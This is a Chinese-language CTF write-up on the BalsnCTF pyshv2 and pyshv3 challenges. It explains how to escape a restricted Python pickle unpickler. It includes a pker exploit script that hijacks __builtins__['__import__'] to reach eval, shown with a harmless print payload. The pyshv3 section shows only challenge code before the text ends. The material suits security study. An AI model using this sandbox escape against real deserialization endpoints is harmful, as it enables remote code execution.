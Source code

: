 #### BalsnCTF:pyshv2

与v1类似，题目的`find_class`只允许`structs`模块，并且对象名中不能有`.`号，只允许一级模块。其中，`structs`是个空模块。但是在`find_class`中调用了`__import__`函数：

```
class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        module = __import__(module) # 注意这里调用了__import__
        return getattr(module, name)
```

注意python的以下几条性质：

1. `__builtins__`是所有模块公有的字典，记录所有内建函数，可以通过对`__builtins__`内相应key对应函数的修改劫持相应的函数。由于题目调用了`__import__`函数，我们可以通过修改`__import__`劫持`getattr`函数。
2. `__dict__`列表储存并决定了一个对象的所有属性，如果其内容被改变，属性也会改变。
3. `c`的实现过程调用了`find_class`函数（顺带一提，它实际上是先`import`再调用`find_class`，但是由于python的import语句其实是使用了五个参数调用的`__import`，无法利用），而本题的`find_class`中多调用了一次`__imoprt__`，随后调用`getattr`，这包含了一个查值的过程，这一点很重要。

然后我们理一下利用过程：

1. 目标：`structs.__builtins__['eval']`→需要`structs.__builtins__.get`函数。
2. 实现二级跳转：劫持`__import__`为`structs.__getattribute__`，opcode`cstructs`变为`structs.__getattribute__(structs).xxx`。
3. 结合1、2：`structs.__getattribute__(structs)`要返回`structs.__builtins__`；xxx则设置为get。
4. 利用`structs.__dict__`对`structs`赋值新属性`structs.structs`为`structs.__builtins__`，以便`structs.__getattribute__(structs)`返回`structs.__builtins__`。

pker实现：

```
__dict__ = GLOBAL('structs', '__dict__') # structs的属性dict
__builtins__ = GLOBAL('structs', '__builtins__') # 内建函数dict
gtat = GLOBAL('structs', '__getattribute__') # 获取structs.__getattribute__
__builtins__['__import__'] = gtat # 劫持__import__函数
__dict__['structs'] = __builtins__ # 把structs.structs属性赋值为__builtins__
builtin_get = GLOBAL('structs', 'get') # structs.__getattribute__('structs').get
eval = builtin_get('eval') # structs.structs['eval']（即__builtins__['eval']
eval('print(123)')
return
```

#### BalsnCTF:pyshv3

v3的`find_class`与v1类似，并限制了`structs`模块，与v1和v2不同的是，v3的flag是由程序读取的，不用达到RCE权限。关键代码为：

```
class Pysh(object):
    def __init__(self):
        self.key = os.urandom(100)
        self.login()
        self.cmds = {
            'help': self.cmd_help,
            'whoami': self.cmd_whoami,
            'su': self.cmd_su,
            'flag': self.cmd_flag,
        }

    def login(self):
        with open('../flag.txt', 'rb') as f:
            flag = f.read()
        flag = bytes(a ^ b for a, b in zip(self.key, flag))
        user = input().encode('ascii')
        user = codecs.decode(user, 'base64')
        user = pickle.loads(user)
```